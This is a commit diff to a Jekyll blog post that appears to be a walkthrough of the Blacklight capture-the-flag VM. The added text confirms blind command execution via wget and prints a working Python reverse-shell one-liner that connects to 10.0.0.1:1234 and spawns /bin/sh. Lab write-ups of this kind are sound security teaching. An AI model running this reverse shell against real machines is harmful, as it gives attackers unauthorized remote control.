

Before and after one commit to ch4n3l/ch4n3l.github.io, a Jekyll site: the page built from _posts/2017/2018-07-22-blacklight.md, in a window 1280 px wide and 1400 px high, scrolled down 2631 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3147 px from its top, so only the background shows below that.

Commit message:
prive sc

```diff
--- a/_posts/2017/2018-07-22-blacklight.md
+++ b/_posts/2017/2018-07-22-blacklight.md
@@ -83,6 +83,31 @@ Looks like the hash can't be cracked... let's move on to the next command in the
 
 `Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`
 
+![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)
+
+Seems like the command is not executed, (or maybe it is?), but we cannot see the output.
+
+To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:
+
+![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)
+
+Perfect, it looks like the box is making a connection to our host.
+
+Which means that the box is executing commands, but we don't see the output (therefore it is called blind).
+
+### iii. Low Privilege Shell
+
+Now that we know that the box is able to execute commands, we can try a reverse shell.
+
+Python One Liner:
+~~~
+python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+
+source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
+~~~
+
+
+
 
 
 
```
Also changed, not shown: images/posts/2017/blacklight/exec.png (added), 1 other file.
